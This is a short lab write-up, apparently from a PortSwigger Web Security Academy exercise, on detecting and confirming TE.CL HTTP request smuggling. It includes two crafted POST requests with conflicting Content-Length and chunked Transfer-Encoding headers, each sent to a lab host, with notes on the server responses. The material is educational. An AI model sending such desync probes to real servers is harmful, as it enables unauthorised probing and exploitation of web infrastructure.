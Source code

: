 [LAB](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses)
[Explained](https://www.youtube.com/watch?v=QaouEvhHefk&list=PLGb2cDlBWRUX1_7RAIjRkZDYgAB3VbUSw&index=5&ab_channel=JarnoTimmermans)

# Detection

```HTTP
POST / HTTP/1.1
Host: 0a69001803897d838055679c005a007c.web-security-academy.net
Content-Length: 11
Transfer-Encoding: chunked

3
abc
X

```

![[Pasted image 20250818175935.png]]
Got Invalid Request, which indicates that frontend doesn't use Content-Length header, and "X" is an invalid chunk size:
![[Invalid Chunk SIze.png]]


Confirming TE.CL with the second request from methodology
```
POST / HTTP/1.1
Host: 0a69001803897d838055679c005a007c.web-security-academy.net
Content-Length: 6
Transfer-Encoding: chunked

0

X
```
Got **Backend Timeout with 500 Internal Server Error**
![[Pasted image 20250818180347.png]]

Usage of Differential Responses:


![[Confirmation Diffential Responses TE CL.png]]